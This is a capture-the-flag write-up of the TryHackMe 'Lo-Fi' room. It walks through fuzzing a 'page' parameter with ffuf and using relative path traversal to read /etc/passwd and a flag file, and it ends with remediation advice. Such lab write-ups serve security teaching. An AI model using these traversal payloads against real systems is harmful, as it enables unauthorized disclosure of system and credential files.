






>> Lo-Fi — LFI Writeup
---

**Challenge name:** Lo-Fi

**Platform:** TryHackMe

**Difficulty:** Easy

**Author:** NIGHTFURY0X01 (Arash)

---
## Overview
In this challenge, we skip the Nmap scan because the room description explicitly asks us to visit a web page.  
The main attack vector here is **Local File Inclusion (LFI)**.

---

## Initial Enumeration
On the index page, we see links to different music genres.



Clicking on any genre redirects us using the `page` parameter:

```
http://lo-fi.thm/?page=
```

There is also a basic filter that blocks **absolute paths**, but relative paths are still allowed.

After we clicked on Relax on the right we found this url

```
http://MACHINE_IP/?page=relax.php

```



---

## LFI Testing
To fuzz the `page` parameter for LFI vulnerabilities, we use **FFuF** with the `LFI-Jhaddix.txt` wordlist.

### Command used:
```bash
ffuf -w /usr/share/wordlists/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt \
-u "http://lo-fi.thm/?page=FUZZ" \
-fl 124
```


This returns multiple valid responses, indicating a possible LFI.

---

## Proof of LFI
To confirm the vulnerability, we try to include `/etc/passwd`:



```
http://lo-fi.thm/?page=../../../etc/passwd
```


✅ The file is successfully included, confirming **Local File Inclusion**.

---

## Flag Retrieval
Knowing that the flag is stored in the root directory, we attempt to include `flag.txt`:

```
http://lo-fi.thm/?page=../../../flag.txt
```


🎯 The flag is successfully retrieved.

---

## Conclusion
- The application is vulnerable to **Local File Inclusion**
- Input filtering is insufficient and only blocks absolute paths
- Relative path traversal leads to sensitive file disclosure
- Proper input validation and whitelisting are required to prevent this issue
